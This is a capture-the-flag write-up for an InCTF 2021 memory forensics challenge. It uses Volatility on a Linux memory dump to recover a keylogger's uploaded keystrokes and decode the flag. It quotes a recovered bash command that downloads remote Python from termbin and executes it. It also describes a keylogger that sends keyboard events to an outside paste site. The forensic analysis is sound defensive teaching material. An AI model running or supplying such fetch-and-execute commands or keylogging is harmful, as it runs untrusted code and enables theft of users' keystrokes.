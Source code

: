```yaml
---
title: The Big Score - InCTF Internationals 2021
date: 2021-08-20 12:00:00
author: d3liri0us
author_url: https://twitter.com/d3liri0us_
categories:
  - Forensics
  - Memory
tags:
  - Memory
  - Linux
  - InCTFi
---
```


**tl;dr**

+ Create a Linux profile for Ubuntu 18.04 (5.4.0-42-generic) in Volatility
+ Use `linux_bash` plugin to get link to the repo and `linux_find_file` plugin to recover the filepath
+ Decode the keyboard stream data to retrieve the flag

<!--more-->

**Challenge Points:** 956
**No of Solves:** 11
**Challenge Author:** [d3liri0us](https://twitter.com/d3liri0us_)

## Challenge Description

`We sent Michael over to the Union Depository to collect data from one of their systems for the heist. We were able to retrieve the data, but it looks like they were able to read the message sent to us that Michael had typed from their system. Fortunately, he took the memory dump before escaping the building. Analyze the memory dump and find out how the message was compromised.`

## Initial Analysis

The handout contains a [lime](https://github.com/504ensicsLabs/LiME) file which is basically a Linux memory dump. For analysis, we will be using [volatility](https://github.com/volatilityfoundation/volatility) and work our way to build and load the Linux profile.


### Building the Linux Profile

In order to start off with the challenge, we need to build a Linux profile for Volatility so that it can parse information from the memory dump. A Linux profile is basically a zip file with information on the kernel's data structures and debug symbols.

To build the Linux profile, we need to identify the Linux version of the system. There are a couple of ways to do it but we will be using `strings` in this case.

```
strings the_big_score.lime | grep 'Linux version'
```

This will give out the following string:

```
Linux version 5.4.0-42-generic (buildd@lgw01-amd64-023) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #46~18.04.1-Ubuntu SMP Fri Jul 10 07:21:24 UTC 2020 (Ubuntu 5.4.0-42.46~18.04.1-generic 5.4.44)
```

From the above result, the Linux version is Ubuntu 18.04 (5.4.0-42-generic)

Now we need to build a system with the same Linux version (basically host a VM) and follow the steps mentioned [here](https://github.com/volatilityfoundation/volatility/wiki/Linux) in order to build the Linux profile.

### Exploring the memory dump

After creating the Linux profile, we can start using volatility plugins for further analysis.
+ Using `linux_bash` plugin, it's possible to recover the bash history from the memory dump.

```
python vol.py -f the_big_score.lime --profile=LinuxUbuntu1804x64 linux_bash
```

This will yield us a few results, but the stuff we are interested in is:

```
2683 bash                 2021-08-07 13:11:08 UTC+0000   python -c "import urllib2;exec(urllib2.urlopen('https://termbin.com/ab9v').read())"
```

+ Looking into the link, we find it's a base64 encoded executable file. The command basically executes the executable file without the executable being stored in the system. The process can only be detected when it is running in the memory.
+ Decoding the base64 encoded executable, it's pretty easy to understand what it does by looking at the strings. It clones a git repo, executes the python script and then removes the repo from the system. (Alternate : Dumping the malicious process, we can directly get the executable and read the strings)
+ Analyzing the code given in the repo, it basically reads data from `/dev/input/event2`, encodes it into hex and uploads it to termbin. The filepath for `termbin.com` is hashed, reversed and stored in `bin/log` along with random hashes.
+ The next step is to figure out how to extract `bin/log` and get the hash. For this, we will be using `linux_enumerate_files` plugin along with `grep` to figure out the inode number of the file.

```
python vol.py -f the_big_score.lime --profile=LinuxUbuntu1804x64 linux_enumerate_files | grep 'bin/log'
```

Output :

```
0xffff8aa80573b890                    930908 /home/user420/bin/log
```

Now that we have the inode number, we can use `linux_find_file` plugin to extract the file from the memory dump.

```
python vol.py -f the_big_score.lime --profile=LinuxUbuntu1804x64 linux_find_file -i 0xffff8aa80573b890 -O log
```

+ The specific hash that we are looking for is : `0bb3dfada523c1a14c3224849368e9ff`
+ After reversing, we get `v61x` on cracking the hash. This gives us the full link : `https://termbin.com/v61x` (Alternate : Since the whole process is recorded in the memory and knowing that the output consists of `https://termbin.com/`, doing a simple `grep` on the lime file will get us the link)

### Decoding the keyboard stream data

+ As mentioned before, the data uploaded to the termbin is hex-encoded data of `/dev/input/event2` wherein `event2` is the event handler for keyboard in this case.
+ Convert the hex-encoded data back to it's original data using `xxd -r -p v61x.data key.data`.
+ Now we have to decode the keyboard stream data. For that, it is recommended to visit this [site](https://thehackerdiary.wordpress.com/2017/04/21/exploring-devinput-1/) for understanding the concept.
+ The script for decoding mentioned over here does not print out the flag but rather prints the result showing the press/release mechanism of the keystrokes for better understanding. Using the following python script and [dictionary](https://pastebin.com/PLSDDhNw):
```py
from dictionary import keyvalues
import struct,os,sys

f = open("key.data","rb")
data = []
keystrokes = ''

while True:

    try:
        data.append(str(list(struct.unpack('4IHHI',f.read(24)))[6]))
    except:
        for i in range(len(data)):
            try:
                if i%3 == 0:
                    if data[i+1] == '1' or data[i+1] == '2': # Value '1' denotes the key is pressed and Value '2' denotes the key hasn't been released
                        keystrokes += keyvalues[data[i]]+'+'
                    else:                                    # Value '0' denotes the key has been released
                        keystrokes += keyvalues[data[i]]+' '
            except:
                print(keystrokes)
                exit()
```
It will generate the following output:

```
[LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+i+i [LEFT_SHIFT] [SPACE]+[SPACE] h+h a+a v+v e+e [SPACE]+[SPACE] a+a l+l l+l [SPACE]+[SPACE] t+t h+h e+e [SPACE]+[SPACE] d+d a+a t+t a+a [SPACE]+[SPACE] n+n e+e e+e d+d e+e d+d [SPACE]+[SPACE] f+f o+o r+r [SPACE]+[SPACE] t+t h+h e+e [SPACE]+[SPACE] h+h e+e i+i s+s t+t .+. [SPACE]+[SPACE] [LEFT_SHIFT]+[LEFT_SHIFT]+t+t [LEFT_SHIFT] r+r e+e v+v o+o r+r [SPACE]+[SPACE] c+c a+a n+n [SPACE]+[SPACE] h+h a+a n+n d+d l+l e+e [SPACE]+[SPACE] t+t h+h e+e [SPACE]+[SPACE] g+g u+u n+n s+s [SPACE]+[SPACE] a+a n+n d+d [SPACE]+[SPACE] [LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+f+f [LEFT_SHIFT] r+r a+a n+n k+k l+l i+i n+n [SPACE]+[SPACE] w+w i+i l+l l+l [SPACE]+[SPACE] b+b e+e [SPACE]+[SPACE] o+o n+n [SPACE]+[SPACE] t+t h+h e+e [SPACE]+[SPACE] g+g e+e t+t a+a w+w a+a y+y [SPACE]+[SPACE] v+v e+e h+h i+i c+c l+l e+e .+. [SPACE]+[SPACE] [LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+i+i [LEFT_SHIFT] t+t [SPACE]+[SPACE] f+f e+e e+e l+l s+s [SPACE]+[SPACE] g+g o+o o+o d+d [SPACE]+[SPACE] t+t o+o [SPACE]+[SPACE] s+s a+a y+y [SPACE]+[SPACE] t+t h+h a+a t+t [SPACE]+[SPACE] i+i n+n c+c t+t f+f [LEFT_SHIFT]+[+[ [LEFT_SHIFT] t+t h+h 1+1 s+s [LEFT_SHIFT]+[LEFT_SHIFT]+-+- [LEFT_SHIFT] 1+1 s+s [LEFT_SHIFT]+[LEFT_SHIFT]+-+- [LEFT_SHIFT] t+t h+h e+e [LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+-+- [LEFT_SHIFT] b+b 1+1 g+g [LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+-+- [LEFT_SHIFT] o+o [LEFT_SHIFT]+[LEFT_SHIFT]+n+n [LEFT_SHIFT] e+e [LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+-+- [LEFT_SHIFT] l+l e+e s+s t+t e+e r+r [LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+[LEFT_SHIFT]+]+] [LEFT_SHIFT] [ENTER]+[ENTER]
```

In order to understand the output, there are a couple of things to remember:
+ Every press/release is recorded in the following format:
```
[1628341964, 0, 607671, 0, 4, 4, X]
[1628341964, 0, 607671, 0, 1, X, Y]
[1628341964, 0, 607671, 0, 0, 0, 0]
```
+ In the format, `X` is value of the key on the keyboard.
+ The course of action, `Y` can take three values which are `0`(Key is released), `1`(Key is pressed) and `2`(Key is not released).
+ The output generated by the script is in such a way that for `Y` = `1` or `2`, it will print `keyvalues[X]+` and for `Y` = `0`, it will print `keyvalues[X]`.
+ For example if the output is `a+a`, it means key `A` is pressed and released so the result will be `a`. If the output is like `[LEFT_SHIFT]+a+a [LEFT_SHIFT] `, it means `Left Shift` is pressed, key `A` is pressed and released and then `Left Shift` is released which will result into `A` as the output. If the output is like `[LEFT_SHIFT]+[LEFT_SHIFT]+`, it simply means that `Left Shift` key is pressed and not released since the event records it as `Y` = `2` in this case.
+ Understanding the functionality, we can apply those changes to the script in order to get the following output:

```
I have all the data needed for the heist. Trevor can handle the guns and Franklin will be on the getaway vehicle. It feels good to say that inctf{th1s_1s_the_b1g_oNe_lester}
```

## Flag
```
inctf{th1s_1s_the_b1g_oNe_lester}
```

I hope you guys had fun and learnt something new from the challenge, I learnt some new stuff (and experienced pain :P) while making it. Feel free to reach out to me on [Twitter](https://twitter.com/d3liri0us_) for any questions/queries regarding this challenge.
